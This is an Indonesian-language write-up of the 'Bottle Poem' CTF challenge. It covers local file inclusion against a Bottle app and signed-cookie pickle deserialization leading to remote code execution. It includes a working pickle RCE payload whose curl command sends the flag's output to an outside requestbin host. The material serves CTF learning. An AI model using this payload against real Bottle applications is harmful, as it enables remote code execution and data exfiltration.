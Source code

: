 # Bottle Poem
vulnerability: LFI plus python bottle library with pickle deserialization RCE 

Pertama kita perlu mengetahui letak dari program-nya

```http
GET /show?id=/proc/thread-self/cmdline HTTP/1.1
```

setelah itu saya coba untuk meng-lfi semua file yang ada disana, antaralain

- ./config/secret.py: disini saya menemukan key untuk encode cookie "name"
- ./app.py: ini merupakan aplikasi utama-nya
- ./views/\<semua yang bisa saya temukan nama foldernya> 

Saya mencoba untuk mereplikasi program tersebut menggunakan file-file yang sudah saya temukan tadi, dan menjalankannya di localhost. 
Setelah sekian lama melihat source code dari app.py, disini saya curiga, bahwa vulnerabilitynya bukan berada di app.py tersebut, namun berada di library bottle.

Saat melihat source code bottle.py kita bisa melihat fungsi
```python
    def get_cookie(self, key, default=None, secret=None):
        """ Return the content of a cookie. To read a `Signed Cookie`, the
            `secret` must match the one used to create the cookie (see
            :meth:`BaseResponse.set_cookie`). If anything goes wrong (missing
            cookie or wrong signature), return a default value. """
        value = self.cookies.get(key)
        if secret and value:
            dec = cookie_decode(value, secret) # (key, value) tuple or None
            return dec[1] if dec and dec[0] == key else default
        return value or default
```
dan
```python
def cookie_decode(data, key):
    ''' Verify and decode an encoded string. Return an object or None.'''
    data = tob(data)
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg))
    return None
```

mata saya langsung tertuju di library pickle yang merupakan module serialization dan deserialization di python. saya coba cari di google dan mendapatkan ini: [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/ "https://davidhamann.de/2020/04/05/exploiting-python-pickle/") 

## exploitasi
saya sedikit mengubah source code dari app.py dengan menyelipkan payload pickle rce

```python
...snip..
@route("/sign")
def index():
    try:
        COMMAND = """curl -X POST -d "fizz=`/flag`" https://requestbin.io/19b9tzf1"""
        class PickleRce(object):
            def __reduce__(self):
                import os
                return (os.system,(COMMAND,))
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": PickleRce()}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
...snip...
```

jalankan di localhost, masuk ke "localhost:\<port>/sign" lalu copy paste

![](Pasted%20image%2020221004173301.png)

masukkan ke cookie tersebut di "http://bottle-poem.ctf.sekai.team/sign"

dan boom, kita mendapatkan flagnya dari webhook kita

![](Pasted%20image%2020221004173340.png)